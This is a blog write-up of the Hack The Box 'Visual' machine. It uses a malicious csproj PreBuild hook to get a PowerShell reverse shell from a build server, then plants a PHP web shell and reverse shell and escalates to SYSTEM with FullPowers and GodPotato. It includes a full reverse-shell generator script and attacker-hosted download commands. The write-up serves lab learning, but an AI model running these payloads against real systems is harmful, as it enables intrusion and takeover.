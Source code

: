 ```yaml
---
layout: post
title:  Visual htb
description: 
date:   2018-04-21 15:01:35 +0300
image:  'https://velog.velcdn.com/images/jjs9366/post/d8ec9c35-68b5-4bf5-998a-c67968412380/image.png'
tags:   [Writeup, HTB]
---
```



## Nmap
{% highlight bash %}
sudo nmap -p- 10.10.11.234  -T4 -A
 Nmap scan report for 10.10.11.234
Host is up (0.16s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.1.17)
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.1.17
|_http-title: Visual - Revolutionizing Visual Studio Builds
{% endhighlight %}
Add `visual.htb` domain to our `/etc/hosts` file.
## Web Enumeration
We can upload our git repo here and it'll compile to make an exe or dll file.
Let's make a project
{% highlight bash %}
mkdir b17
dotnet new console -n b17 -f net6.0
dotnet new sln -n b17
dotnet s In b17.sln add b17/b17.csproj
{% endhighlight %}
Now creating a git repo for this project
{% highlight bash %}
git init
git add .
git commit -m "update"
git update-server-info
{% endhighlight %}
**Folder Structure**
{% highlight bash %}
├── b17
│   ├── b17.csproj
│   ├── obj
│   │   ├── b17.csproj.nuget.dgspec.json
│   │   ├── b17.csproj.nuget.g.props
│   │   ├── b17.csproj.nuget.g.targets
│   │   ├── project.assets.json
│   │   └── project.nuget.cache
│   └── Program.cs
└── b17.sln
{% endhighlight %}
Now we will upload it

{% highlight bash %}
python3 -m http.server 80
{% endhighlight %}

![Image description](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/mwmulbi4b4czpaubfsh7.jpg)
and the website does it works

![Image description](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/xra4v09ov3ufvsitcg6x.jpg)
## Gaining access
from here we can try to get a reverse shell using the csproj file
**Generate Reverse Shell**
{% highlight bash %}
#!/usr/bin/env python3
#
# generate reverse powershell cmdline with base64 encoded args
#

import sys
import base64

def help():
    print("USAGE: %s IP PORT" % sys.argv[0])
    print("Returns reverse shell PowerShell base64 encoded cmdline payload connecting to IP:PORT")
    exit()
    
try:
    (ip, port) = (sys.argv[1], int(sys.argv[2]))
except:
    help()

# payload from Nikhil Mittal @samratashok
# https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3

payload = '$client = New-Object System.Net.Sockets.TCPClient("%s",%d);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
payload = payload % (ip, port)

cmdline = "powershell -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()

print(cmdline)
{% endhighlight %}
{% highlight bash %}
python <filename>.py <IP> 9009
{% endhighlight %}
{% highlight bash %}
<Project Sdk="Microsoft.NET.Sdk">

  <PropertyGroup>
    <OutputType>Exe</OutputType>
    <TargetFramework>net6.0</TargetFramework>
    <ImplicitUsings>enable</ImplicitUsings>
    <Nullable>enable</Nullable>
  </PropertyGroup>

  <Target Name="PreBuild" BeforeTargets="BeforeBuild">
    <Exec Command="<Output of filename.py>" />
  </Target>

</Project>
{% endhighlight %}
updating the git repo again
{% highlight bash %}
git add b17/b17.csproj
git commit -m "csproj update"
git update-server-info
python3 -m http.server 80
{% endhighlight %}
Setup Listener
{% highlight bash %}
nc -nvlp 9009
{% endhighlight %}
and we got a shell
{% highlight bash %}
type C:\\Users\\enox\\Desktop\\root.txt
{% endhighlight %}
## Lateral Movement to nt authority\local service
**Attacker**
{% highlight bash %}
echo -n "<?php system($_GET['cmd']);?>" | cat > b1.php
python -m http.server 80
{% endhighlight %}
**Victim**
{% highlight bash %}
Invoke-WebRequest -Uri http://your-ip:80/b1.php -OutFile C:\\xampp\\htdocs\\b1.php
{% endhighlight %}

![Image description](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/ziwsvg6gwakaos4cqjjv.jpg)
## Privilege escalation
{% highlight bash %}
wget https://raw.githubusercontent.com/ivan-sincek/php-reverse-shell/master/src/reverse/php_reverse_shell.php
{% endhighlight %}
**Edit ip and port**

![Image description](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/zdn0jrcacdbd68itwtqy.png)
**Attacker**
{% highlight bash %}
python3 -m http.server 80
{% endhighlight %}
**Victim**
{% highlight bash %}
Invoke-WebRequest -Uri http://your-ip:80/php_reverse_shell.php -OutFile C:\\xampp\\htdocs\\php_reverse_shell.php
{% endhighlight %}
Setup **Listner**
{% highlight bash %}
ncat -lvnp 9008
{% endhighlight %}
Go to http://visual.htb/php_reverse_shell.php
**Boom we got reverse shell as nt authority\local service**
As the user is local service, we can restore the default privileges of the account using [FullPowers](https://github.com/itm4n/FullPowers)
**Attacker**
{% highlight bash %}
wget https://github.com/itm4n/FullPowers/releases/download/v0.1/FullPowers.exe
python -m http.server 80
{% endhighlight %}
**Victim**
{% highlight bash %}
Invoke-WebRequest -Uri http://your-ip:80/FullPowers.exe -OutFile C:\\xampp\\htdocs\\FullPowers.exe
.\FullPowers.exe 
whoami /priv
{% endhighlight %}
**Boom**

![Image description](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/pbu71ath05529oi0bxni.png)
then simply using [GodPotato ](https://github.com/BeichenDream/GodPotato)got nt authority\system
**Attacker**
{% highlight bash %}
wget https://github.com/BeichenDream/GodPotato/releases/download/V1.20/GodPotato-NET4.exe -O  GP4.exe
python -m http.server 80
{% endhighlight %}
**Victim**
{% highlight bash %}
Invoke-WebRequest -Uri http://your-ip:80/GP4.exe -OutFile C:\\xampp\\htdocs\\GP4.exe
.\GP4 -cmd "cmd /c type C:\Users\Administrator\Desktop\root.txt"
{% endhighlight %}
Go root.....
Hurray!!!!!!!!!!!!!!!

